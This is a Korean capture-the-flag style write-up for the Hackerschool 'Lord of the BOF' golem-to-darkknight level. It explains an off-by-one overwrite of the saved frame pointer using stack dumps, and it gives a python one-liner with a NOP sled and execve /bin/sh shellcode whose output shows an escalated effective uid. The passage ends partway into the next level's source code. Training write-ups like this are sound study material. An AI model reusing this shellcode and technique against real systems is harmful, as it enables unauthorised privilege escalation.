 stack을 좀 살펴 보자면... 아래와 같다
```
0xbffffc54:	0xbffffc8c	0x08048466	0x08048500	0xbffffc64
0xbffffc64:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc74:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc84:	0x41414141	0x41414141	0xbffffc00	0x0804849e
```

A가 끝나는 지점 이후 인 0xbffffc00은 main으로 돌아갈 주소이며, A를 40개 주고 B를 하나 주면, 아래와 같이 주소가 바뀌게 된다.

```
0xbffffc64:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc74:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc84:	0x41414141	0x41414141	0xbffffc42	0x0804849e
```
0xbffffc42 요렇게! 이 값을 A가 시작하는 주소인 0xbffffc64으로 옮기고 A 대신 쉘 코드를 넣으면 될 것이다.

라고 생각하면 틀린 것이다.

우리가 돌아갈 주소는 main에 입력되어 있는 argv[1]의 위치이기 때문에 esp-0x40 위치 쯤에서 찾아야 한다.

```
0xbffffc5c:	0x08048500	0xbffffc64	0x90909090	0x90909090
0xbffffc6c:	0x90909090	0x31909090	0x2f6850c0	0x6868732f
0xbffffc7c:	0x6e69622f	0x5350e389	0xc289e189	0x80cd0bb0
0xbffffc8c:	0xbffffc5c	0x0804849e	0xbffffdf8	0xbffffcb8
```
41번 째 주소는 0xbffffc6c정도를 가지고 있으면 +4된 주소가 실행된다. 어짜피 nop 이기 때문에 영향을 받지 않는다.

최종 exploit 코드는 nop+shellcode 로 구성된 아래 홈페이지를 참조하였다.

```
`python -c 'print "\x90"*15 +"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x6c"'`

bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
bash$ my-pass
euid = 512
new attacker
```

출처: http://orang.tistory.com/entry/해커스쿨-LOB-golem-darkknight-by-ORANG [Hacked by ORANG]


## darkknight

### 1. source code
```
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

```
